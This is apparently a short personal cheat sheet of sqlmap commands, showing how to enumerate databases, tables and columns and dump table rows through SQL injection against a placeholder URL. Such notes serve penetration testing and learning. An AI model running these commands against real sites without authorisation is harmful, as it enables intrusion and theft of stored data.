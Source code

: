 # SQLMAP commands

This is a simple file for remind me some sqlmap instructions.

### Show databases
	sqlmap -u someurl.com/file.php?property=arg --dbs

### Show tables
	sqlmap -u someurl.com/file.php?property=arg -D SomeDatabase --tables

### Show columns
	sqlmap -u someurl.com/file.php?property=arg -D SomeDatabase -T someTable --columns

### Get rows of table
	sqlmap -u someurl.com/file.php?property=arg -D SomeDatabase -T someTable --dump
